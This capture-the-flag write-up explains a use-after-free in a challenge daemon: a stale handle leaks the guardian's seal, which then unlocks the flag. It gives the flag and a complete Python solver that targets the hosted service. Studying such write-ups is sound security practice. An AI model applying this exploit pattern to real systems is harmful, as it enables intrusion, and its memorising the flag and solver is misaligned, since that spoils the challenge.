





# A06 - Siddhashrama: The Unbroken Vigil

**Category:** Pwn | **Flag:** `PINAKA{siddhashrama_the_vigil_has_one_unseen_seam}`
Target: `130.210.48.10:9002` (TCP)

## TL;DR

Use-after-free on a slab. Wards and the guardian live in the same 256-slot arena. `SWEEP` frees a retired ward but its handle stays valid, `CONSECRATE` puts the new guardian into that freed slot, and `GET` on the old handle leaks the guardian. Its first 8 bytes are the seal that `PROVE` wants.

## The daemon

We get a stripped x86-64 daemon and a runner script. It speaks a simple line-based protocol over TCP.



## Object lifecycle

The commands that matter are `WARD`, `ENTRUST`, `RETIRE`, `SWEEP`, `CONSECRATE`, `GET` and `PROVE`. The sweep reclaims the cell but never invalidates the handle pointing to it. The next allocation is the guardian, it lands in the same slot, and the stale handle now points at the guardian object.



## Leaking the seal

`GET` on the stale handle returns a `data=` hex string. The first 16 hex characters (8 bytes) are the guardian's seal. Pass them to `PROVE` with the same handle.



There's no race here. The order is deterministic, so it works on the first try every time. The daemon accepts the seal and sends the flag on the line after its proof message.




## Solver (`solve.py`)

```python
#!/usr/bin/env python3
"""Exploit the stale ward handle in the hosted Siddhashrama Vigil daemon."""
import re
import socket

HOST, PORT = "130.210.48.10", 9002
FLAG_RE = re.compile(r"PINAKA\{[^}]+\}")


def main():
    sock = socket.create_connection((HOST, PORT), timeout=15)
    stream = sock.makefile("rwb", buffering=0)
    try:
        greeting = []
        while True:
            raw = stream.readline()
            if not raw:
                raise RuntimeError("service closed during greeting")
            line = raw.decode("utf-8", errors="replace").rstrip()
            greeting.append(line)
            if line.startswith("  STATUS | HELP | QUIT"):
                break
        print("Connected to", f"{HOST}:{PORT}")

        def command(text):
            stream.write(text.encode("ascii") + b"\n")
            raw = stream.readline()
            if not raw:
                raise RuntimeError(f"service closed after {text!r}")
            line = raw.decode("utf-8", errors="replace").strip()
            shown = re.sub(r"(data=[0-9a-f]{16})[0-9a-f]+", r"\1...", line, flags=re.I)
            print(f"> {text}\n  {shown}")
            if line.startswith(("ERR", "ERROR")):
                raise RuntimeError(line)
            return line

        created = command("WARD x")
        match = re.search(r"(?:handle|ward)\s*[=:]?\s*(\d+)", created, re.I)
        if not match:
            match = re.search(r"\b(\d+)\b", created)
        if not match:
            raise RuntimeError("could not parse ward handle from response")
        handle = int(match.group(1))
        command(f"ENTRUST {handle}")
        command(f"RETIRE {handle}")
        command("SWEEP")
        command("CONSECRATE")
        leaked = command(f"GET {handle}")
        data_match = re.search(r"data=([0-9a-f]+)", leaked, re.I)
        if not data_match:
            raise RuntimeError("GET response did not include leaked data")
        seal = data_match.group(1)[:16]
        if len(seal) != 16:
            raise RuntimeError("guardian leak was too short to contain its seal")
        print("Leaked guardian seal:", seal)
        proof = command(f"PROVE {handle} {seal}")
        raw_flag = stream.readline()
        if not raw_flag:
            raise RuntimeError("PROVE sent no flag line after its acknowledgement")
        flag_line = raw_flag.decode("utf-8", errors="replace").strip()
        print("  " + flag_line)
        flag_match = FLAG_RE.search(proof + " " + flag_line)
        if not flag_match:
            raise RuntimeError("PROVE response did not include the flag")
        print("Flag:", flag_match.group(0))
    finally:
        stream.close()
        sock.close()


if __name__ == "__main__":
    main()

```
